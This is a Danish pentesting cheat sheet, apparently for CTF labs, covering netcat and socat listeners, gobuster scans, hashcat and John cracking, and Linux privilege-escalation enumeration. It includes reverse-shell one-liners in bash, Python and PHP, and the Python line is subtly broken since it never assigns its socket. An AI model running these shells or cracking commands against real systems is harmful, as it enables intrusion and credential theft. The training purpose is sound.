 ## Reverse Shell & Netværksforbindelser

| Kommando           | Beskrivelse                                                 | Vigtige Flags                                                     |
|--------------------|-------------------------------------------------------------|-------------------------------------------------------------------|
| `nc -lvnp 443`     | Starter en Netcat-lytter på port 443 (typisk til reverse shell). | `-l`: Lytter efter indgående forbindelser.<br>`-v`: Verbose (viser detaljer).<br>`-n`: Ingen DNS-opslag.<br>`-p`: Angiver specifik port. |
| `rlwrap [kommando]`| Tilføjer readline-funktionalitet (historik, autocomplete) til terminalprogrammer. | Ingen essentielle flags.<br>Eksempelbrug: `rlwrap nc -lvnp 443` |
| `ncat [host] [port]`| Forbedret udgave af Netcat med bl.a. SSL-understøttelse og avancerede features. | `-l`: Lytter.<br>`-v`: Verbose.<br>`--ssl`: Bruger SSL-forbindelse.<br>`-e [program]`: Udfører program/shell ved forbindelse (typisk til reverse shells). |
| `socat [parametre]`| Avanceret værktøj til netværksoperationer, tunneling og shells. | Eksempel reverse shell:<br>`socat TCP-L:[port] -` (lyt)<br>`socat TCP:[ip]:[port] EXEC:/bin/bash` (connect til remote shell). |

## Web Enumeration & Brute Force

| Kommando | Beskrivelse | Vigtige Flags |
|----------|-------------|---------------|
| `gobuster --help` | Viser hjælp og alle muligheder i Gobuster. | Ingen flags nødvendige |
| `gobuster dir -u "http://www.example.thm" -w /path/to/wordlist` | Scanner URL for skjulte mapper/filer (directory brute-force). | `dir`: Directory scan-mode.<br>`-u`: URL til målet.<br>`-w`: Angiver sti til wordlist. |
| `gobuster dir -u "http://www.example.thm" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r` | Directory scanning med udvidet wordlist og følger redirects (omdirigeringer). | `-r`: Følg HTTP redirects.<br>`-w`: Wordlist-sti. |
| `gobuster vhost -u "http://MACHINE_IP" --domain example.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320` | Scanner efter virtuelle hosts/subdomæner på målet. | `vhost`: Virtual host scan-mode.<br>`--domain`: Angiver hoveddomænet.<br>`--append-domain`: Tilføjer domænet til resultaterne.<br>`--exclude-length`: Ekskluderer svar af bestemt længde (fx fejlmeldinger). |

## Password Cracking

| Kommando | Beskrivelse | Vigtige Flags |
|----------|-------------|---------------|
| `hashcat` | Password-cracking værktøj, understøtter mange algoritmer og angrebsmetoder. | `-m`: Hash-algoritme (f.eks. `-m 3200` er bcrypt).<br>`-a`: Angrebsmodus (f.eks. `0` dictionary attack, `3` brute force). |
| `hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt` | Bruger Hashcat med dictionary-angreb på hashes af typen bcrypt. | `-m 3200`: bcrypt hashes.<br>`-a 0`: Dictionary-angreb (ordliste).<br>`hash.txt`: Fil med hash-værdier.<br>`rockyou.txt`: Standard ordliste til password cracking. |
| `john hash.txt` | Simpelt password cracking med John the Ripper. | Ingen flags (simpel cracking). |
| `john --wordlist=/path/to/wordlist.txt hash.txt` | Dictionary-angreb med ordliste. | `--wordlist`: Angiver ordliste (dictionary attack). |
| `john --format=bcrypt hash.txt` | Password cracking med specifik algoritme (bcrypt). | `--format`: Angiver hash-algoritme (f.eks. bcrypt, md5, sha256). |
| `john --show hash.txt` | Viser crackede passwords fra John the Ripper. | `--show`: Vis crackede passwords. |

## Reverse Shell Eksempler

| Reverse Shell Eksempler | Beskrivelse |
|-------------------------|-------------|
| `bash -i >& /dev/tcp/<ip>/<port> 0>&1` | Enkel bash reverse shell |
| `python3 -c 'import socket,subprocess,os;socket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Python reverse shell (lang version) |
| `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&1");'` | PHP reverse shell |

## Linux Enumeration & Privilege Escalation

| Kommando | Beskrivelse |
|----------|-------------|
| `uname -a` | Systeminfo (OS, kerneversion). |
| `cat /etc/issue` | OS distribution info. |
| `cat /etc/passwd` | Systembrugere. |
| `sudo -l` | Kommandoer med sudo-rettigheder. |
| `id` | Bruger-ID og grupper. |
| `crontab -l` | Brugerens cronjobs. |
| `cat /etc/crontab` | Systemets cronjobs. |
| `find / -perm -4000 2>/dev/null` | Filer med SUID-bit (privilege escalation). |
| `cat /etc/sudoers` | Sudo-konfiguration. |

## Filhåndtering

| Kommando | Beskrivelse | Nyttige flags |
|----------|-------------|---------------|
| `ls` | Lister filer og mapper | `-l`: detaljeret visning<br>`-a`: vis skjulte filer |
| `pwd` | Viser nuværende mappe | Ingen flags |
| `cd <mappe>` | Skifter mappe | Brug `..` for op |
| `cat <fil>` | Viser filindhold | Ingen flags |
| `nano <fil>` | Teksteditor | Ingen flags |
| `touch <fil>` | Opretter tom fil | Ingen flags |
| `mkdir <mappe>` | Opret mappe | `-p` opret mellemmapper |
| `rm <fil>` | Sletter fil | `-r`: rekursivt<br>`-f`: tving sletning |
| `cp <fra> <til>` | Kopier filer/mapper | `-r`: kopierer mapper |
| `mv <fra> <til>` | Flyt eller omdøb | Ingen flags |
| `grep <søgetekst> <fil>` | Søg efter tekst | `-i`: ignore case<br>`-r`: rekursiv |
| `chmod <rettigheder> <fil>` | Filrettigheder | `+x`: eksekverbar |
| `chown <bruger>:<gruppe> <fil>` | Ændrer ejer | Ingen nødvendige |
| `scp <fil> bruger@host:/sti` | Filoverførsel via SSH | Ingen nødvendige |
